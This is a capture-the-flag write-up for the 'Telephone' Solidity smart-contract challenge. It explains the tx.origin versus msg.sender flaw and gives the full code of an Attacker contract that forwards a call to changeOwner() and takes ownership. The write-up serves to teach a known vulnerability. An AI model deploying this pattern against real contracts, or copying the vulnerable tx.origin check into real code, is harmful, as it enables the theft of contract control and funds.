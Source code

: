 # Telephone

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## Goal

Change the owner of the Telephone smart contract

## Exploit

Similar to the previous Coin Flip CTF, we will again need additional smart contract to complete this challenge, again this contract will be named Attacker

In order to win this challenge we need to change the owner of the contract, and looking into the code we can see that there is chageOwner() function, with some additional requirement. So let's jump to it!

As seen inside changeOwner() function, in order to change the owner we first make the following check:

```
  if (tx.origin != msg.sender)
```

What this is checking is if the originator of the transaction is different from the msg.sender (the account from which changeOwner() function is called).
With that in mind, in order to solve the challenge we will need to find a way to "forward" the call to changeOwner() from another smart contract.
Kepp in mind that tx.origin will always be an externally owned account (EOA) and confusing tx.origin with msg.sender can lead to phishing-style attacks.

The steps to reproduce the exploit would be:

1. create Attacker contract, and send the address of the the Telephone contract inside the Attacker contract
2. create changeOwnerFromAttacker() external function inside the Attacker contract, inside this function we will call the changeOwner(_owner) function from Telephone smart contract, passing msg.sender as argument for the _owner, this is the part where we are forwarding the call
3. call the changeOwnerFromAttacker() function inside the Attacker contract
4. this will change the owner of the Telephone contract setting our EOA account as the owner

## Attacker contract code

```
contract Attacker {

  address private telephoneContractAddress;

  constructor(address _tel) {
    telephoneContractAddress = _tel;
  }

  function changeOwnerFromAttacker() external {
    (bool success, ) = telephoneContractAddress.call(abi.encodeWithSignature("changeOwner(address)", msg.sender));
    require(success, "Transaction failed");
  }
}
```